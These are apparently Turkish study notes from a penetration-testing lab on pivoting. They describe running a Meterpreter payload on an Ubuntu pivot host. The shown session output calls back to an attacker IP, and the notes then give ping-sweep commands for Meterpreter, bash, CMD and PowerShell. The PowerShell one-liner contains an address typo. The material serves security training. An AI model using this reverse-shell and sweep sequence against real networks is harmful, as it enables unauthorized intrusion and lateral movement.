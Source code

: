 ### Multi/handler'ı Yapılandırma ve Başlatma
![Pasted image 20241004155552.png](/img/user/resimler/Pasted%20image%2020241004155552.png)
Backupjob binary dosyasını SSH üzerinden Ubuntu pivot host'a kopyalayabilir ve bir Meterpreter oturumu kazanmak için çalıştırabiliriz.

### Pivot Host'ta Payload'un Çalıştırılması
![Pasted image 20241004155702.png](/img/user/resimler/Pasted%20image%2020241004155702.png)
Payload'u çalıştırdıktan sonra Meterpreter oturumunun başarıyla kurulduğundan emin olmamız gerekir.


### Meterpreter Session Kurulumu
```shell-session
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```
Windows hedefinin 172.16.5.0/23 ağında olduğunu biliyoruz. Dolayısıyla, Windows hedefindeki güvenlik duvarının ICMP isteklerine izin verdiğini varsayarsak, bu ağ üzerinde bir ping taraması yapmak isteriz. Bunu, Ubuntu hostundan 172.16.5.0/23 ağına ICMP trafiği oluşturacak olan ==ping_sweep== modülü ile Meterpreter kullanarak yapabiliriz.



#### Ping Sweep
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```
Ayrıca, belirlediğimiz ağ aralığındaki herhangi bir cihaza ping atacak bir hedef pivot host üzerinde doğrudan bir ==for döngüsü== kullanarak bir ping taraması da gerçekleştirebiliriz. İşte Linux tabanlı ve Windows tabanlı pivot hostlar için kullanabileceğimiz iki yararlı ping tarama for döngüsü tek satırları.

#### Ping Sweep For Loop on Linux Pivot Hosts
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

#### Ping Sweep For Loop Using CMD
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

#### Ping Sweep Using PowerShell
```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

Not: Bir ping taraması, özellikle ağlar arasında iletişim kurarken, ilk denemede başarılı yanıtlarla sonuçlanmayabilir. Bu, bir hostun arp önbelleğini oluşturması için geçen süreden kaynaklanabilir. Bu durumlarda, arp önbelleğinin oluşturulmasını sağlamak için ping taramamızı en az iki kez denemek iyi olur.
